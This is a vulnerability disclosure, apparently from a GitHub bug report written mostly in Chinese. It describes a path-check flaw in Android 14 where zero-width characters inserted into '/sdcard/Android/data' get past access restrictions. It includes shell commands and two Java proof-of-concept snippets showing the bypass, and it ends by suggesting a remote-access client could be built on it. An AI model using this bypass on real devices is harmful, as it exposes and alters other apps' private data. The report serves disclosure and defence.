 # Android OS has a logical flaw in determining the Android/data access path

BUG_Author:
hujiayucc

Affected version:
Android 14

Vendor:
https://www.android.com/

Description:

Android操作系统对Android/data访问路径判断存在逻辑缺陷。

系统对Android/data路径字符串过滤没做好正确处理，黑客可以利用这个漏洞任意读取、写入、删除Android/data目录下的所以文件夹和文件。

状态：严重

漏洞环境及工具
- Android OS 14
- Termux 任意版本


复现过程
```shell
ls /sdcard/Android/data
```

执行以上代码，可以看到没有访问权限

```shell
ls /sdcard/Android$'\u200d'/data
```
但是在路径中加入\u200d，可以绕过路径判断

[![](https://oss.hujiayucc.cn/blog/OSS8uli20240603135758.png?x-oss-process=image/resize,m_fixed,h_370,w_600)](https://oss.hujiayucc.cn/blog/OSS8uli20240603135758.png)

经测试，可以对Android/data目录下的所有文件进行任意操作
[![](https://oss.hujiayucc.cn/blog/OSSLXxP20240603140135.png?x-oss-process=image/resize,m_fixed,h_370,w_600)](https://oss.hujiayucc.cn/blog/OSSLXxP20240603140135.png)

Poc1:
```java
File dir = new File("/sdcard/Android\u200d/data");
File[] files = dir.listFiles();
for (File file : files) {
    System.out.println(file);
}
```
Poc2:
```java
File dir = new File("/sdcard/\u200bAndroid/data");
File[] files = dir.listFiles();
for (File file : files) {
    System.out.println(file);
}
```

附加说明

除了 **/sdcard/Android$'\u200d'/data** 以外，还可以通过 **/sdcard/$'\u200b'Android/data** 进行越权操作

![](https://oss.hujiayucc.cn/blog/OSS9QMU20240603141624.png)

[![](https://oss.hujiayucc.cn/blog/OSSKMQe20240603141405.png?x-oss-process=image/resize,m_fixed,h_370,w_600)](https://oss.hujiayucc.cn/blog/OSSKMQe20240603141405.png)

演示视频：[点击查看](https://oss.hujiayucc.cn/videos/Screenrecorder-2024-05-25-11-36-10-451.mp4 "点击查看")

通过以上测试，可以制作一个客户端实现远程访问和修改

